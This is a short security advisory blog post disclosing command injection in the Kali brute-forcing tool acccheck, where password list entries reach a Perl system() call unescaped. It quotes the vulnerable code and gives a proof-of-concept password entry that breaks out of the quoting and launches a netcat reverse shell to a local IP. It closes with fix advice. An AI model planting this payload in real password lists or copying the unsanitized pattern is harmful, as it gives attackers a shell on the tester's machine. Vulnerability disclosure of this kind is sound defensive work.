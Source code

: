 ```yaml
---
layout: post
title:  "Never trust the password lists"
date:   2018-06-13 00:00:00 +0100
categories: 
permalink: /acccheck-command-injection.html
---
```


# Never trust the password lists

## Summary

Penetration testers often download password lists from external sources to use them in their bruteforcing tools. A very quick audit of some bruteforcing tools provided with Kali Linux show that a few of them show vulnerabilities where using maliciously crafted password lists could be dangerous.

`acccheck` is one of these tool, which is vulnerable to command injection.

Penetration testers should always audit their username and password bruteforcing lists before using them.

## Description

From the source code: 

```
Attempts to connect to the IPC$ and ADMIN$ shares depending on which flags have been
chosen, and tries a combination of usernames and passwords in the hope to identify
the password to a given account via a dictionary password guessing attack.
```

The tool can be obtained at [https://labs.portcullis.co.uk/tools/acccheck/](https://labs.portcullis.co.uk/tools/acccheck/).


## Vulnerability

The tools is vulnerable to command injection due to a lack of sanitization of user input.

By feeding a specific user or password list, arbitrary code can be executed.

Example of vulnerable code:

```
foreach $singlePass (@PASS_LIST)                                          
      {                                                                         
        chomp($singlePass);                                                     
        output("Host:$singleIp, Username:Administrator, Password:'$singlePass'");
        $connectValue = system("smbclient \\\\\\\\$singleIp\\\\admin\$ -U Administrator%'$singlePass' -c 'exit' 1> /dev/null 2> /dev/null");
```

$singlePass and $singleIP are retreived from the username and password file.

## Proof of concept

```
root@kali:~# cat passwords.txt 
admin
test
';printf 'nc -e /bin/sh 192.168.1.254 80' > /tmp/pwned ; sh /tmp/pwned & #
```

```
root@kali:~# acccheck -t 192.168.1.1 -P passwords.txt
```

## Recommendations

1. Usernames and passwords provided per lists should be correctly escaped before inserted in the prepared statement.

2. Username and password lists from unknown sources should never be trusted and always be audited before use.
